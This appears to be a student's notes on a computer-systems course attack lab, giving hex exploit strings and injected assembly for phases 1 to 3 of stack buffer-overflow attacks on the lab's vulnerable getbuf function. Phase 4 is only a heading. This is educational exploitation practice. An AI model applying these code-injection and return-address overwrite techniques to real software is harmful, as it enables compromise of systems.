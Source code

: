 * Phase 1

The stack space of ~getbuf~ is ~0x28~. The address of ~touch1~ is
~0x4017c0~. Thus, the exploit string should consists of 40 bytes of
random garbage and a 8-byte wide ~0x4017c0~.

The string that used by =hex2raw= to generate the actual input string:

#+begin_example
c0 17 40 00 00 00 00 00
c0 17 40 00 00 00 00 00
c0 17 40 00 00 00 00 00
c0 17 40 00 00 00 00 00
c0 17 40 00 00 00 00 00
c0 17 40 00 00 00 00 00
#+end_example

* Phase 2

In phase 2 we are going to inject the following code into the
program.

#+begin_src asm
          mov $0x59b997fa, %rdi
          mov $0x4017ec, (%rsp)
          ret
#+end_src

To be more specific, the code is injected to the buffer of the ~getbuf~
function. We also have to make ~getbuf~ returns to the starting address
of the buffer, which is =0x5561dc78=.

The final string we feed to =hex2raw= is:

#+begin_example
48 c7 c7 fa 97 b9 59 48 c7 04 24 ec 17 40 00 c3
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
#+end_example

Though this piece of code successfully called ~touch2~, it also
generates a segmentation fault. I think it is because we overwrite the
value where ~%rsp~ is pointing to. Instead of move, let's try ~push~. The
new injected code is:

#+begin_src asm
          mov $0x59b997fa, %rdi
          push $0x4017ec
          ret
#+end_src

The corresponding string that we feed to =hex2raw= is:

#+begin_example
48 c7 c7 fa 97 b9 59
68 ec 17 40 00
c3
00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
78 dc 61 55 00 00 00 00
#+end_example

* Phase 3

Cookie is:

0x59b997fa.

Hex representation is:

35 39 62 39 39 37 66 61

Let's place the string at the beginning of the buffer, thus it is less
likely to be overwritten by other function calls.

The code we need is:

#+begin_src asm
          mov $0x5561dc78, %rdi
          push $0x4018fa
          ret
#+end_src

This does not work. It happens to be written by some stack validation
mechanism. Try offset it a little bit.

Offsetting it makes it more closer to the top of the stack, which
makes it easier to be overwrote. Actually, it gets overwrote by a ~push~
instruction.

Analyzing the assembly code of ~touch3~, ~hexmatch~ tells that the stack
allocated by ~getbuf~ can not be used, they are all overwritten. Thus,
we can only place the string further down the stack. This leads to a
segmentation fault in phase 2. Let's see if it will work in phase 3.

#+begin_example
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
48 c7 c7 a8 dc 61 55
68 fa 18 40 00
c3
00 00 00
88 dc 61 55 00 00 00 00
88 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
#+end_example

The code works. I guess phase 3 uses a different validation protocol
than phase 2. Note that I have adjusted the address of the string in
the injected code to be =0x5561dca8=.

* Phase 4

